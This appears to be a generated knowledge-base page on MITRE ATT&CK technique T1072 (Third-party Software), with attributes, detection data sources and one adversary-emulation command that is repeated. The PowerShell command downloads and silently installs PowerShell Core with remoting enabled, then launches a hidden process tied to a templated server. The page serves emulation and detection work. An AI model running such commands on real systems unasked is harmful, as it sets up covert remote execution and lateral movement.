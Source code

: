 
# Third-party Software

## Description

### MITRE Description

> Third-party applications and software deployment systems may be in use in the network environment for administration purposes (e.g., SCCM, VNC, HBSS, Altiris, etc.). If an adversary gains access to these systems, then they may be able to execute code.

Adversaries may gain access to and use third-party systems installed within an enterprise network, such as administration, monitoring, and deployment systems as well as third-party gateways and jump servers used for managing other systems. Access to a third-party network-wide or enterprise-wide software system may enable an adversary to have remote code execution on all systems that are connected to such a system. The access may be used to laterally move to other systems, gather information, or cause a specific effect, such as wiping the hard drives on all endpoints.

The permissions required for this action vary by system configuration; local credentials may be sufficient with direct access to the third-party system, or specific domain credentials may be required. However, the system may require an administrative account to log in or to perform it's intended purpose.

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: ['User', 'Administrator', 'SYSTEM']
* Platforms: ['Linux', 'macOS', 'Windows']
* Remote: True
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1072

## Potential Commands

```
{'windows': {'psh': {'command': '$wc=New-Object System.Net.WebClient;\n$output="PowerShellCore.msi";\n$wc.DownloadFile("https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi", $output);\nStart-Process msiexec.exe -ArgumentList "/package PowerShellCore.msi /quiet ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1 ENABLE_PSREMOTING=1 REGISTER_MANIFEST=1" -Wait;\n$env:Path += ";C:\\Program Files\\Powershell\\6";\nStart-Process pwsh -ArgumentList "-c #{location} -server #{server} - group #{group} -executors pwsh" -WindowStyle hidden;\n', 'cleanup': 'rm PowerShellCore.msi;\n'}}}
```

## Commands Dataset

```
[{'command': {'windows': {'psh': {'cleanup': 'rm PowerShellCore.msi;\n',
                                  'command': '$wc=New-Object '
                                             'System.Net.WebClient;\n'
                                             '$output="PowerShellCore.msi";\n'
                                             '$wc.DownloadFile("https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi", '
                                             '$output);\n'
                                             'Start-Process msiexec.exe '
                                             '-ArgumentList "/package '
                                             'PowerShellCore.msi /quiet '
                                             'ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1 '
                                             'ENABLE_PSREMOTING=1 '
                                             'REGISTER_MANIFEST=1" -Wait;\n'
                                             '$env:Path += ";C:\\Program '
                                             'Files\\Powershell\\6";\n'
                                             'Start-Process pwsh -ArgumentList '
                                             '"-c #{location} -server '
                                             '#{server} - group #{group} '
                                             '-executors pwsh" -WindowStyle '
                                             'hidden;\n'}}},
  'name': 'Download, install and start new process under PowerShell Core 6',
  'source': 'data/abilities/execution/60f63260-39bb-4136-87a0-b6c2dca799fc.yml'}]
```

## Potential Detections

```json
[{'data_source': ['4688', 'Process Execution']},
 {'data_source': ['5156', 'Windows Firewall']},
 {'data_source': ['4663', 'File monitoring']},
 {'data_source': ['4657', 'Windows Registry']},
 {'data_source': ['Binary file metadata']},
 {'data_source': ['Third-party application logs']},
 {'data_source': ['4688', 'Process Execution']},
 {'data_source': ['5156', 'Windows Firewall']},
 {'data_source': ['4663', 'File monitoring']},
 {'data_source': ['4657', 'Windows Registry']},
 {'data_source': ['LOG-MD B9', 'Binary file metadata']},
 {'data_source': ['Third-party application logs']}]
```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Mitre Stockpile - Download, install and start new process under PowerShell Core 6': {'description': 'Download, '
                                                                                                       'install '
                                                                                                       'and '
                                                                                                       'start '
                                                                                                       'new '
                                                                                                       'process '
                                                                                                       'under '
                                                                                                       'PowerShell '
                                                                                                       'Core '
                                                                                                       '6',
                                                                                        'id': '60f63260-39bb-4136-87a0-b6c2dca799fc',
                                                                                        'name': 'Install '
                                                                                                'PowerShell '
                                                                                                'Core '
                                                                                                '6',
                                                                                        'platforms': {'windows': {'psh': {'cleanup': 'rm '
                                                                                                                                     'PowerShellCore.msi;\n',
                                                                                                                          'command': '$wc=New-Object '
                                                                                                                                     'System.Net.WebClient;\n'
                                                                                                                                     '$output="PowerShellCore.msi";\n'
                                                                                                                                     '$wc.DownloadFile("https://github.com/PowerShell/PowerShell/releases/download/v6.2.2/PowerShell-6.2.2-win-x64.msi", '
                                                                                                                                     '$output);\n'
                                                                                                                                     'Start-Process '
                                                                                                                                     'msiexec.exe '
                                                                                                                                     '-ArgumentList '
                                                                                                                                     '"/package '
                                                                                                                                     'PowerShellCore.msi '
                                                                                                                                     '/quiet '
                                                                                                                                     'ADD_EXPLORER_CONTEXT_MENU_OPENPOWERSHELL=1 '
                                                                                                                                     'ENABLE_PSREMOTING=1 '
                                                                                                                                     'REGISTER_MANIFEST=1" '
                                                                                                                                     '-Wait;\n'
                                                                                                                                     '$env:Path '
                                                                                                                                     '+= '
                                                                                                                                     '";C:\\Program '
                                                                                                                                     'Files\\Powershell\\6";\n'
                                                                                                                                     'Start-Process '
                                                                                                                                     'pwsh '
                                                                                                                                     '-ArgumentList '
                                                                                                                                     '"-c '
                                                                                                                                     '#{location} '
                                                                                                                                     '-server '
                                                                                                                                     '#{server} '
                                                                                                                                     '- '
                                                                                                                                     'group '
                                                                                                                                     '#{group} '
                                                                                                                                     '-executors '
                                                                                                                                     'pwsh" '
                                                                                                                                     '-WindowStyle '
                                                                                                                                     'hidden;\n'}}},
                                                                                        'tactic': 'execution',
                                                                                        'technique': {'attack_id': 'T1072',
                                                                                                      'name': 'Third-party '
                                                                                                              'Software'}}}]
```

# Tactics


* [Execution](../tactics/Execution.md)

* [Lateral Movement](../tactics/Lateral-Movement.md)
    

# Mitigations

None

# Actors


* [Threat Group-1314](../actors/Threat-Group-1314.md)

